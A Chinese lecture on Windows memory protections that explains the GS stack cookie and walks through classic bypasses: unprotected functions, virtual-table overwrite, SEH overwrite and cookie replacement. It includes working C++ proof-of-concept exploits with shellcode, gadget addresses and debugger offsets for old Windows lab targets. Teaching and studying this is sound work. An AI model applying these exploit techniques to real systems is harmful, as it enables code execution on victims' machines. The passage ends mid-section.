

# 第8讲 Windows 安全机制1

一台图灵机包括 4 个部分：一条无限长的纸带、一个读写头、一个规则集合（程序）和一个状态集合（数据）。当图灵机能够把规则集合当作状态集合来读写时，就会发生很多怪诞的现象，比如图灵机可以自己复制自己！

冯·诺依曼在实现电子计算机时，忽略了图灵机模型中对程序和数据的区分，将程序（规则集）和数据（状态集）放在了同一个物理设备——内存中。因此，现代电子计算机对图灵机模型的实现存在着天然的瑕疵。由于没有明确地区分内存中的程序指令（规则）和普通数据（状态），当年对图灵机自我复制的预言频繁地被黑客攻击所验证，蠕虫的自我复制与传播就是一个生动的例子。

漏洞的万源之本就来自于冯·诺依曼机这种“色即是空，空即是色”的对待代码和数据的态度。**高级的变形病毒、软件加壳与脱壳技术等都是基于程序指令可以在运行时当做普通的内存数据进行动态读写的缺陷；堆栈溢出攻击中 shellcode 的执行则是基于计算机错误地把存放在堆栈中的普通内存数据当做程序指令而使用的缺陷；此外，跨站脚本攻击、SQL 注入攻击等也都是利用计算机把数据和代码混淆这一天然缺陷而造成的**。

虽然加强输入验证、分析数据流、分析控制流等方法在增强系统安全性方面起到了一定效果，但总有种“治标不治本”的味道。彻底杜绝黑客攻击需要在计算机体系架构上修复混淆使用数据与代码这一缺陷，而且微软天才的工程师们已经发现了这一点。

在过去的十年中，微软在提高操作系统的安全性方面做着不懈的努力。从 Windows 98 到 Windows XP，从 Windows XP 到 W indows Vista，再到最新的 Windows 7，每个新版本的发布都会带来安全性质的飞跃。从普通用户角度来看，微软在安全方面逐步做了如下几点增强。
- 增加了windows 安全中心，提醒用户使用杀毒软件、防火墙、以及最新安装补丁。
- 为windows添加PC端防火墙
- 未经用户允许，大多数 web 弹出窗口和activex控件安装将被禁止
- IE7增加了筛选仿冒网站的功能，具有钓鱼网站过滤器
- 添加了UAC 用户账户控制机制，防止恶意软件和间谍软件在未经许可的情况下在计算机上进行安装或堆计算机更改。
- 集成了 windows defender，可以帮助阻止、控制、删除间谍软件以及潜在的恶意软件。

在这些安全功能的保护下，我们操作系统的安全性大大提高了，但是微软所做的工作还远远不止于此。微软还在普通用户看不到的内存保护方面做了很多的工作，下边我们就来看看微软十年间都是如何提高内存保护的安全性。

- 使用GS编译技术，在函数返回地址之前加入了 Security Cookie，在函数返回前首先检查 Security cookie是否被覆盖，从而把针对操作系统的栈溢出变得非常困难。
- 增加了堆 SEH 的安全校验机制，能够有效地挫败绝大多数通过更改 SEH 而劫持进程的攻击。
- 堆中加入了 Heap cookie, safe unlinking 等一系列安全机制，为原本就困难重重的堆溢出增加了更多的限制
- DEP(Data execution protection，数据执行保护)将数据部分标示为不可执行，阻止了栈、堆、数据节中攻击代码的执行。
- ASLR(Address space layout randomization) 加载地址随机化技术通过对系统关键地址的随机化，使得经典堆栈溢出手段失效。
- SEHOP(Structured Exception Handler Overwrite Protection, SEH覆盖保护)作为对安全SEH机制的补充，SEHOP将SEH的保护提升到了系统级别，使SEH的保护机制更加有效。

从Windows 8 开始， windows还引入了下列安全机制：

- 零页禁用
- 高熵随机化
- 执行流保护（Control Flow Guard , CFG）
- 管理模式执行保护（Superior Mode Execution Prevention, SMEP）

对Windows平台上的应用和内核漏洞利用明显地提高了门槛。

windows 10中又引入了以下安全机制：

- Windows 10字体安全防护，包括：非系统字体禁用策略、隔离的用户模式字体引擎。
- （未完）

傻眼了吧！事实就是这样，微软在我们看不到的地方已经做了很多保护操作系统的工作，将系统的安全性给予了最大限度的提升，这些安全技术也应用在 Windows 2003、Windows 2008 等服务器的操作系统上。如果以安全性为衡量指标对 Windows 家族进行分级的话：

- Windows XP SP2 以前的操作系统致力于系统的稳定性，忽略了系统的安全性，在这之前的系统可以归为一级；
- 在 Windows XP SP2、Windows 2003 系统中加入了独特安全性设计，在安全性上较前辈有了很大的提高，因此它们属于同一级别；
- Windows Vista、Windows 2008 和最新的 Windows 7 等操作系统中加入了更多的安全机制，从安全性来看它们也是目前 Windows 家族中安全级别最
高的。
- windows 10

微软引入的这些安全机制成功地挫败了很多攻击，使得能够应用于 Windows 的漏洞大大减少了。但是，智者千虑必有一失，在一些特定的攻击场景中，采用一些高级的漏洞利用技术，这些安全机制还是可以被绕过的。2008 年，Alexander S otirov 和 Mark Dow d 就发表一篇关于 Windows 安全机制的文章“Bypassing Browser Memory Protections”，文中总结了 Windows 各种安全机制及其突破方法。

接下来我们将在前辈们的研究基础上一一介绍这些安全机制和黑客们对付这些安全机制的奇思妙想，带您回顾微软工程师与黑客之间斗智斗勇的故事。

## 栈中的守护天使 GS

### GS 安全编译选项的保护原理

针对缓冲区溢出时覆盖函数返回地址这一特征，微软在编译程序时使用了一个很酷的安全编译选项——GS，在vs2003（vs7.0）及以后版本中都默认启用这个编译选项。在VS——project——→project Properties→Configuration Prop erties→C/C++→Code Ge neration 中可以找到GS编译选项的设置。

GS 编译选项为每个函数调用增加了一些额外的数据和操作，用以检测栈中的溢出。

- 在所有函数调用发生时，向栈帧内压入一个额外的随机 DWORD，这个随机数被称做 “canary”，但如果使用 IDA 反汇编的话，您会看到 IDA 会将这个随机数标注为“Security Cookie”。在本书的叙述中将用 Security Cookie 来引用这种随机数。
- Security Cookie 位于 EBP 之前，系统还将在.data的内存区域中存放一个 Security Cookie 的副本，如图 10.1.2 所示。
-  当栈中发生溢出时，Security Cookie 将被首先淹没，之后才是 EBP 和返回地址。在函数返回之前，系统将执行一个额外的安全验证操作，被称做 Security check。
-  在 Security Check 的过程中，系统将比较栈帧中原先存放的 Security Cookie 和.data 中副本的值，如果两者不吻合，说明栈帧中的 Security Cookie 已被破坏，即栈中发生了溢出。


- 当检测到栈中发生溢出时，系统将进入异常处理流程，函数不会被正常返回，ret 指令也不会被执行，如图 10.1.3 所示。


但是额外的数据和操作带来的直接后果就是系统性能的下降，为了将对性能的影响降到最小，编译器在编译程序的时候并不是对所有的函数都应用 GS，以下情况不会应用 GS。

- 函数不包含缓冲区。
- 函数被定义为具有变量参数列表。
- 函数使用无保护的关键字标记。
- 函数在第一个语句中包含内嵌汇编代码。
- 缓冲区不是 8 字节类型且不大于 4 个字节。

有例外就有机会，我们会在下一节中介绍一种利用这些例外突破 GS 的情况。当然微软的工程师也发现了这个问题，因此他们为了在性能与安全之间找到一个平衡点，在 Visual Studio 2005 SP1 起引入了一个新的安全标识：
```#pragma strict_gs_check ```

通过添加```#pragma strict_gs_check(on)``` 可以对任意类型的函数添加 Security Cookie。如以下代码所示，通过设置该标识，可以对不符合 GS 保护条件的函数 vulfuction 添加 GS 保护。

```c++

#include"stdafx.h"
#include"string.h"
#pragma strict_gs_check(on) // 为下边的函数强制启用 GS
intvulfuction(char * str)
{
 chararry[4];
 strcpy(arry,str);
 return 1;
}
int_tmain(intargc, _TCHAR* argv[])
{
 char* str="yeah,i have GS protection";
 vulfuction(str);
 return 0;
} 
```

除了在返回地址前添加 Security Cookie 外，在 Visual Studio 2005 及后续版本还使用了变量重排技术，在编译时根据局部变量的类型对变量在栈帧中的位置进行调整，将字符串变量移动到栈帧的高地址。这样可以防止该字符串溢出时破坏其他的局部变量。同时还会将指针参数和字符串参数复制到内存中低地址，防止函数参数被破坏。如图 10.1.4 所示。


从图 10.1.4 中可以看出，不启用 GS 时，如果变量 Buff 发生溢出变量 i、返回地址、函数参数 arg 等都会被覆盖，而启用 GS 后，变量 Buff 被重新调整到栈帧的高地址，因此当 Buff 溢出时不会影响变量 i 的值，虽然函数参数 arg 还是会被覆盖，但由于程序会在栈帧低地址处保存参数的副本，所以 Buff 的溢出也不会影响到传递进来的函数参数。

题外话：早在 1998 年 Crispin Cowan 等人在一篇发表于 7th USENIX Security Conference 中的名为 Stack Guard: Automatic Adaptive Detection and Prevention of Buffer-Overflow Attacks 的学术论文中介绍了他们所研究的用于 gcc 编译器上检测栈溢出的技术。.NET 中使用的 GS 编译技术就是在吸收了 Stack Guard 技术的思想上，由微软独立开发出来
的。最后再插一句闲话，包括 Crispin Cowan 在内，总共有 10 名作者在那篇优秀的文章中署名，这在一般的学术论文中并不常见。

通过 GS 安全编译选项，操作系统能够在运行中有效地检测并阻止绝大多数基于栈溢出的攻击。要想硬对硬地冲击 GS 机制，是很难成功的。让我们再来看看 Security C ookie 产生的细节。

- 系统以.data 节的第一个双字作为Cookie的种子，或称为原始 cookie（所有函数的cookie都用这个DWORD生成）
- 在程序每次运行时 cookie 的种子都不同，因此种子有很强的随机性。
- 在栈顶初始化以后，系统用esp异或种子，作为当前函数的 cookie，以此作为不同函数之间的区别，并增加cookie的随机性
- 在函数返回前，用esp还原出（异或）cookie的种子。

若想在程序运行时预测出cookie而突破GS机制，基本上是不可能的。但是谦虚谨慎的微软工程师清楚GS编译选项不是一劳永逸的遏制了所有类型的缓冲区溢出攻击。

在微软出版的 《Writing Secure Code》一书中谈到GS选项时，作者曾用过一个非常形象的比喻：GS 好像汽车里的安全带和安全气囊，当事故发生时往往能够给驾驶员带来很好的安全保障，但这并不意味系着安全带的您可以像疯子一样飚车。在该书的同一节中，作者还给出了微软内部对 GS 为产品所提供的安全保护的看法：

- 修改栈帧中函数返回地址的经典攻击将被 GS 机制有效遏制；
- 基于改写函数指针的攻击，如第 6 章中讲到的对 C++虚函数的攻击，GS 机制仍然很难防御；
- 针对异常处理机制的攻击，GS 很难防御；
- GS 是对栈帧的保护机制，因此很难防御堆溢出的攻击。

微软对 GS 机制中的这些弱点的描述也为黑客突破 GS 提供了一些思路。2003 年 9 月 8 日，正是 GS 机制在 XP SP2 和 Windows 2003 中获得巨大成功的时候，David Litchfield 发表了一篇著名的技术文章 Defeating the Stack Based Buffer Overflow Prevention Mechanism of Microsoft
Windows 2003 Server。您可以在 NGS 的网站 http://citeseerx.ist.psu.edu/viewdoc/download?doi=10.1.1.164.6529&rep=rep1&type=pdf 中找到这篇著名的 White p aper。在这篇文章中，David Litchfield 列举了若干种方法用于突破 GS 对栈帧的安全保护，并对 GS 机制做出了一些改进的建议。

作为微软内存保护的开山之作，GS 在安全方面考虑不是很全面，虽然它给我们的溢出带来了很多麻烦，但在前辈们的不懈努力下还是想出很多突破 GS 的方法，接下来我们分析其中一些经典方法。

注：为了更为直观地反映出程序在内存中的状态，本章所有的实验在编译时均禁用优化选
项，可以在通过菜单中的 Project→project Pr operties→Configuration Properties→C/C++→
Optimization→Optimization 中对编译优化选项进行设置。设置为disabled(/Od)。

### 利用未被保护的内存突破 GS 

大家应该记得我们前面说过为了将 GS 对性能的影响降到最小，并不是所有的函数都会被保护，所以我们就可以利用其中一些未被保护的函数绕过 GS 的保护。例如，下边这一段代码，由于函数 vulfuction 中不包含 4 字节以上的缓冲区，所以即便 GS 处于开启状态，这个函数是也不受保护的。

```c++
#include"stdafx.h"
#include"string.h"
int vulfuction(char * str)
{
 char arry[4]; 
  strcpy(arry,str);
 return 1;
}
int _tmain(int argc, _TCHAR* argv[])
{
 char* str="yeah,the fuction is without GS";
 vulfuction(str);
 return 0;
} 
```

我们在 Visual Studio 2008 下对该代码进行编译后，使用 IDA 对可执行程序进行反汇编可以看到程序在执行完函数 vulfuction 返回时，没有进行任何 Security Cookie 的验证操作。如下图所示：


如果我们直接运行程序，程序会弹出异常对话框，我们使用 VS 调试器进行调试，调试器会报告内存访问冲突，如图 10.2.2 所示。大家注意异常信息中的 0x63756620，这不是一个普通的值，而是字符串“ fuc ”经过 ASCII 码转换后的值（注意倒序），这说明返回地址已经被覆盖。


### 覆盖虚函数突破GS

回想一下 GS 机制，程序只有在函数返回时，才去检查 Security Cookie，而在这之前是没有任何检查措施的。换句话说如果我们可以在程序检查 Security Cookie 之前劫持程序流程的话，就可以实现对程序的溢出了，而 C++的虚函数恰恰给我们提供了这么一个机会（对于虚函数溢出的原理大家可以参照 6.3 的内容）。

我们将通过以下代码来演示和分析一下如何利用虚函数来绕过 GS 机制。

```c++
#include "stdio.h"
#include"string.h"
class GSVirtual {
	public :
		void gsv(char * src)
		{
			char buf[200];
			strcpy(buf, src);
			vir();
		}
		virtual void vir()
		{
		 	
		}
	};
int main()
{
	GSVirtual test;
	test.gsv(
		"\x04\x2b\x99\x7C" //address of "pop pop ret"
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90" 
	);
 	return 0;
} 
```

对实验思路和代码简要解释如下:

- 类 GSVirtual 中的 gsv 函数存在典型的溢出漏洞。
- 类 GSVirtual 中包含一个虚函数 vir。
- 当 gsv 函数中的 buf 变量发生溢出的时候有可能会影响到虚表指针，如果我们可以控制虚表指针，将其指向我们的可以控制的内存空间，就可以在程序调用虚函数时控制程序的流程。
- 说明：shellcode 中头部的 0x7C992B04 为“pop edi pop esi retn”指令的地址，不同版本的系统中该地址可能不同，如果您在其他版本中进行实验，可能需要重新设置此地址。


实验环境如表:

- 操作系统 Window XP SP2
- 编译器 Visual Studio 2008
- 编译选项 禁用优化选项
- build 版本 release 版本 

使用IDA pro 查看上面vs2008生成的exe文件。 有下列发现：

- main()函数 位置在.text:004010B0
- GSVirtual::GSVirtual(void) 此构造函数地址为 .text:004010D0
- GSVirtual::gsv(char *) 此函数地址为 .text:00401000
- GSVirtual::vir(void) 虚函数地址为 004010A0


为了能够精准地淹没虚函数表，我们需要搞清楚变量与虚表指针在内存中的详细布局，通过前面的分析可以知道当函数 gsv 传入参数的长度大于 200 个字节时，变量 buff 就会被溢出(buff变量起始地址在栈中地址为0x0012fe9c，到0x0012ff64为200字节)。先将 test.gsv 中传入参数修改为 199 个“\x90” + 1 个“\0”，然后用 OllyDbg 加载程序，在执行完 strcpy 后暂停，如图 10.3.1 所示。


说明：

- [0x0012FE9C] = buff 首地址
- [0x0012FF68] = security cookie
- [0x0012FF6c] = 上一栈区 ebp
- [0x0012FF70] = gsv() 返回地址
- [0x0012FF74] = gsv函数参数，即传入字符串地址
- [0x0012FF78] = 虚表地址 此处为 0x004021E4
- [0x004021e4] = 虚函数地址 ，此处为 0x004010a0

分析图 10.3.1 所示的内存布局，可以看出我们距离胜利的终点还有 20 个字节，只要参数长度再增加 20 个字节以上就可以改变虚表指针了。但是现在我们还需要考虑一个问题，在淹没虚表指针后我们如何控制程序的流程？想想在图 6.3.1 中介绍的虚函数的实现过程，程序根据虚表指针找到虚表，然后从虚表中取出要调用的虚函数的地址，根据这个地址转入虚函数执行，该过程汇编指令序列如图 10.3.2 所示。我们需要做的就是将虚表指针指向我们的 shellcode 以劫持进程，为此还有几个关键的问题需要去解决。

变量 Buff 在内存的位置不是固定的，我们需要考虑一下如何让虚表指针刚好指到 shellcode 的范围内。通过对内存布局的分析（如图 10.3.1 所示），虽然变量 Buff 的位置不固定，但是拷贝给buff的原始字符串（参数）（位于0x00402100）是位于虚表（0x004021E0）附近，所以我们可以通过覆盖部分虚表指针的方法，让虚表指针指向原始参数，在本实验中使用字符串结束符“\0”覆盖虚表指针的最低位即可让其指向原始参数的最前端,即0x004021E0变为0x00402100。


虚表指针指向原始参数中的 shellcode 后，我们面临着一个 call 操作，也就是说我们在执行完这个 call 后还必须可以返回 shellcode 内存空间继续执行。您可能首先会想到 jmp esp 跳板指令，但是很不幸，这个指令在这行不通，如图 10.3.3 所示。

 

我们的原始参数不在栈中！无论怎么样我们都跳不回 0x00402100 的内存空间继续执行了。此时程序已经完成了字符串复制操作，shellcode 已经复制到变量 Buff 中了，所以我们可以转入 Buff 的内存空间继续执行 shellcode。

Buff 的地址存放在 0x0012FE8C 中（如图 10.3.3 所示），位于 ESP+4 的位置，我们只要执行“pop pop retn”指令序列后就可以转到 0x0012FE9C 执行了（因为 call eax 操作后会将返回地址入栈，所以我们需要多 pop 一次才能保证执行 ret 时栈顶为0x0012FE9C）。我们找到位于内存 0x7C992B04 处的“pop edi pop esi retn”指令序列，同时当0x7C992B04 解析为指令时（做跳板时它是被当做一个地址处理），其操作不影响程序流程，所以当程序转入 Buff 内存空间执行时不需要对这个跳板做什么特殊处理。

对于不同环境下替换0x7C992B04的类似地址说明：

- 可以使用 metasploit-framework下的msfpescan 寻找 ，命令大致为：```msf5 > msfpescan -p  ~/Downloads/dlls/winxpsp3_ntdll.dll```
- 找到的类似地址，不能含有字节内容为00的，否则会影响strcpy执行。
- 找到的类似地址，作为shellcode最前面的内容，它将被视为机器码执行，要保证这段机器码不影响执行后续指令。即要避免跳转到其它地方，避免除数为0，避免引用不可用地址等等。
- 如果这个地址表示的机器无法避免的为跳转指令，例如0x7c就是jl,可以在shellcode与这个开头地址中间加一段nop或其它。


万事俱备，只欠东风。现在我们还需要一个可以运行的 shellcode 就可以完成溢出了，我们以弹出对话框的机器码作为基础构建一个长度为 221 个字节的 shellcode。首先在 shellcode 的开始位置放上跳板“\x04\x2B\x99\x7C”，然后跟上弹出对话框的 shellcode 代码，最后不足部分用0x90 补充，以 0x00 结束。布局如图 10.3.4 所示。


与上面不同，在windows xp sp3 上调试的代码如下：

请注意shellcode前几行

```c++
#include "stdio.h"
#include "string.h"
class GSVirtual {
	public :
		void gsv(char * src)
		{
			char buf[200];
			strcpy(buf, src);
			vir();
		}
		virtual void vir()
		{
		 	
		}
	};
int main()
{
	GSVirtual test;
	test.gsv(
		"\x6a\xef\x94\x7C" // 0x7c94ef6a address of "pop edi; pop esi; ret"
		"\x01\x90\x94\x90"
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90"
	);//\x90\x90\x90\x90" 
 	return 0;
} 
```

将构建好的 shellcode 作为参数写到程序里，再编译、运行，熟悉的对话框就出现了！

### 攻击异常处理突破 GS 

GS 机制并没有对 S.E.H 提供保护，换句话说我们可以通过攻击程序的异常处理达到绕过GS 的目的。我们首先通过超长字符串覆盖掉异常处理函数指针，然后想办法触发一个异常，程序就会转入异常处理，由于异常处理函数指针已经被我们覆盖，那么我们就可以通过劫持S.E.H 来控制程序的后续流程。如果您记不清异常处理机制的流程了，可以先复习一下。 

我们使用以下的代码来演示如何通过覆盖 S.E.H 来绕过 GS。

```c++
#include<stdafx.h>
#include<string.h>
charshellcode[]=
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"……"
	"\x90\x90\x90\x90"
	"\xA0\xFE\x12\x00"//address of shellcode
	;
void test(char * input)
{
	char buf[200];
	strcpy(buf,input);
	strcat(buf,input);
}
void main()
{
	test(shellcode);
} 
```
实验环境如表:
- 操作系统 Windows 2000 SP4  
- 编译器 Visual Studio 2005 Windows 2000 高支持 VS2005 
- 编译选项 禁用优化选项  
- build 版本 release 版本  
- 说明：为了不受 SafeSEH 的影响，本次实验需要在 Windows 2000 上进行。此外，shellcode 的起始地址可能需要在 调试中重新确定。

对代码简要解释如下。
（1）函数 test 中存在典型的栈溢出漏洞。
（2）在 strcpy 操作后变量 buf 会被溢出，当字符串足够长的时候程序的 S.E.H 异常处理句柄也会被淹没。
（3）由于 strcpy 的溢出，覆盖了 input 的地址，会造成 strcat 从一个非法地址读取数据，这时会触发异常，程序转入异常处理，这样就可以在程序检查 Security Cookie 前将程序流程劫持。如图 10.4.1 所示。


首先将shellcode赋值为一段不至于产生溢出的0x90，再按照实验环境编译，然后用OllyDbg加载程序，在程序执行完 strcpy 后中断程序。如图 10.4.2 所示，shellcode 的起始位置为 0x0012FEA0，距离栈顶最近的 S.E.H 位于0x0012FFB0+4（为什么加 4？请大家回想一下 S.E.H 链的结构），我们只要覆盖这个地址里边的内容，就可以控制程序的异常处理。

通过计算可以知道从 shellcode 起始位置覆盖到最近的 S.E.H 需要 276 个字节，所以我们将弹出“failwest”对话框的机器码代码放到最前面；276~280 字节使用 0x0012FEA0 填充，用来更改异常处理函数的指针；其他不足部分使用 0x90 填充。shellcode 布局如图 10.4.3 所示。


接下来验证一下我们的分析是否正确，将设计好的 shellcode 复制到程序里，然后编译、运行，看看熟悉的对话框是不是又弹出来了？

###  同时替换栈中和.data 中的 Cookie 突破 GS 

前面介绍的几种方法都是通过避开 Security Cookie 的校验完成绕过的，下边我们和 GS 来 一次正面交锋。

既然要在 GS 正常工作的情况下挫败它，就要保证溢出后栈中的 Cookie 与.data 中的一致，而要达到这个目的我们有两条路可以走： 

- （1）猜测 Cookie 的值； 
- （2）同时替换栈中和.data 中的 Cookie。

Cookie 的生成具有很强的随机性，因此准确猜测出 4 字节的 Cookie 值的可能性极低。这样的话我们只能通过同时替换栈中和.data 中的 Cookie 来保证溢出后 Cookie 值的一致性。 我们将通过以下代码演示如何同时替换栈中和.data 中的 Cookie，绕过 Security Cookie 的 校验。 

```c++
#include <stdio.h>
#include <string.h> 
#include<stdlib.h> 

char Shellcode[]= "\x90\x90\x90\x90"//new value of cookie in .data
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" 
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" 
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" 
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" 
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" 
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" 
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" 
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" 
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8" 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xF4\x6F\x82\x90"//"\x38\x6E\x82\x90"//result of \x90\x90\x90\x90 xor ESP
	"\x90\x90\x90\x90"
	"\x94\xFE\x12\x00"//address of Shellcode 
	;
	

void test(char * s, int i, char * src)
{    
	char dest[200];    
	if(i<0x9995)    
	{       
		char * buf=s+i;       
		*buf=*src;       
		*(buf+1)=*(src+1); 
		*(buf+2)=*(src+2);      
		*(buf+3)=*(src+3);      
		strcpy(dest,src);    
	} 
} 

void main() 
{    
	char * str=(char *)malloc(0x10000);   
	test(str,0xFFFF2FB8,Shellcode);  
}
```

对代码简要解释如下:

- （1）main 函数中在堆中申请了 0x10000 个字节的空间，并通过 test 函数对其空间的内容进行操作。 
- （2）test 函数对 s+i 到 s+i+3 的内存进行赋值，虽然函数对 i 进行了上限判断，但是没有判断 i 是否大于 0，当 i 为负值时，s+i 所指向的空间就会脱离 main 中申请的空间，进而有可能会指向.data 区域。 
- （3）test 函数中的 strcpy 存在典型的溢出漏洞。 
- 说明：shellcode 的起始地址和异或时使用的 EBP 可能需要在调试中重新确定。 

实验环境如下所示:
- 操作系统 Windows XP SP3 
- 编译器 Visual Studio 2008  
- 编译选项 禁用优化选项  
- build 版本 release 版本 

知己知彼，百战不殆。我们先来看一下 Security Cookie 的校验的详细过程。

回到我们的程序，将 Shellcode 赋值为 8 个 0x90，然后用 OllyDbg 加载运行程序，并中断在 test 函数中的 if 语句处，本次实验中该语句地址为 0x00401013。 如图 10.5.1 所示，程序从 0x00403000 处取出 Cookie 值，然后与 EBP 做一次异或，后将异或之后的值放到 EBP-4 的位置作为此函数的 Security Cookie。函数返回前的校验就是此过程的逆过程，程序从 EBP-4 的位置取出值，然后与 EBP 异或，后与 0x00403000 处的 Cookie 进行比较，如果两者一致则校验通过，否则转入校验失败的异常处理。 


如果代码经过了vs2008生成时的优化，则会与上面过程不同。初始化和检查一般是如下步骤：
- 获取PE初始的 security cookie,一般在PE文件.data节的前4个字节（存放security cookie之后的4字节存放了__security_cookie_complement），放入EAX。
- 将初始值与当前esp异或，即 ```xor eax, esp```
- 将结果存放到当前栈区底部，例如当前栈区大小0xCC，那就会放到0xC8处，也即ebp-4位置。

函数返回前就是上述过程的逆过程：
